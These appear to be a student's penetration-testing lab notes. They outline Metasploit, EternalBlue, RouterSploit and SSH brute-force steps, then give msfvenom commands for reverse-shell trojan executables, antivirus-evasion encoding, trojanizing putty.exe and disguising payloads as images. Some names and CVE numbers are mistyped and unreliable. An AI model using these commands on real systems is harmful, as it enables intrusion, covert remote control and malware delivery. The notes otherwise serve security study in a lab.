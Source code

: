 # Exploitation and gaining access

Exploitation and gaining access refer to the techniques and methods used to exploit vulnerabilities
in computer systems or networks in order to gain unauthorized access or control. This can involve
various activities such as finding and exploiting software vulnerabilities, bypassing security measures,
or using social engineering techniques to trick users into revealing sensitive information. The ultimate
goal is to gain unauthorized access to a system or network for malicious purposes.

- payload : A payload is the actual code or software that is used to exploit a vulnerability and gain access to a system or network. This can include malware, remote access tools, or other types of malicious software.
- vulnerability : A vulnerability is a weakness or flaw in a system or network that can be exploited by an attacker to gain unauthorized access or control. Vulnerabilities can exist in software, hardware, or network configurations, and can be exploited through various means such as code execution, privilege escalation, or data exfiltration.
- reverse shell : A reverse shell is a type of shell that allows an attacker to gain remote access to a system or network. This is typically achieved by exploiting a vulnerability and then using a payload to establish a connection back to the attacker's system, allowing them to execute commands and interact with the compromised system.
- bind shell: A bind shell is a type of shell that allows an attacker to gain remote access to a system or network. This is typically achieved by exploiting a vulnerability and then using a payload to establish a connection from the compromised system to the attacker's system, allowing them to execute commands and interact with the compromised system.

### Metasploit Framework

- cd /usr/share/metasploit-framework : to navigate to the metasploit directory
- cd modules: to see 7 modules of this framework
- msfconsole : to start it
- show payloads : shows all of the available payloads
- show exploits
- use [module-name]: e.g use exploit/windows/...
- show info & show options
- set [parameter] [ip]

### exploit -> metasploitable

- start metasploitable
- check ifconfig
- sudo nmap -sV [ip of metasploitable]
- searchsploit [package-with-version]
- msfconsole
- msf6 > search vsftpd
- msf6 > use exploit/unix/rest..
- show info
- show options
- set RHOSTS [metasploitable-ip]
- show payloads
- show targets
- show options
- exploit : enter -> we got control of the terminal of metaslpoitable machine (type ls)

### misconfig -> bindshell exploitation

- nc -h
- nc (ip) (port)

### information disclosure -> telnet

- telnet (ip)

### software vulnerability -> samba exploit

### attacking SSH -> brute force attack

- search ssh
- ssh username@ip

### meterpreter shell

- napmap scan -> msf console -> search -> searchploit

### windows - 7 exploitation

- download windows 7 iso
- storage -> controller -> chose iso file
- nat -> nat network
- disable firewall

### eternal blue attack - win7

- sudo nmap -sS (target ip)
- msfconsole
- search eternalblue
- use auxiliary module
- set RHOSTS (target ip)
- use exploit module
- show options

### double pulsar attack - win exploit

- sudo dpkg --add-architecture i386 && apt-get update && apt-get install wine32
- sudo su
- download python 2 msi
- sudo su
- wine msiexec /i python-2.7.14.msi
- sudo su -> ls -la
- download eternal blue double pulsar - github
- follow any article to do this attack

### bluekeep vulnerability - win exploit

### routersploit

- search routersploit -github
- follow installation guid
- netstat -nr -> gateway ip
- router default credentials -> search
- nmap -sT (router ip)
- telnet (ip)

### smbgost cve 202-0796 - windows 10 exploit

- crashing and exploiting remotely

### gaining access (virus, trojan)

- msfvenom -h
- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(kali ip) LPORT=4444 -f exe -o (filename).exe
- msfconsole
- use exploit/multi/handler
- show options
- set payload windows/x64/meterpreter/reverse_tcp
- set LHOST (kali ip)
- set LPORT 4444
- run

### advance msfvenom

- msfvenom -h
- msfvenom --list formats
- virustotal -> to check if the file is detected by antivirus
- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(kali ip) LPORT=4444 -a x64 -e x64/24tto-dekiru -i 15 --platform windows -n 500 -f exe -o shell.exe
- msfvenom ... -x putty.exe -f exe -o shell.exe

### generating powershell payload using veil

- sudo su
- apt-get install veil
- veil
- use 1
- dist
- use 22
- set SLEEP 20
- set LHOST (kali ip)
- generate
- download B2E -github
- wine bat...exe
- msfconsole
- resource (paste)

### the fatrat payload creation

- download from github

### Hex editor and antivirus

- use the html file
- md5sum shell.exe
- hexedior shell.exe
- ctrl+o ctrl+x

### masking payload (image)

- follow articles
- create ico file
- use windows archive
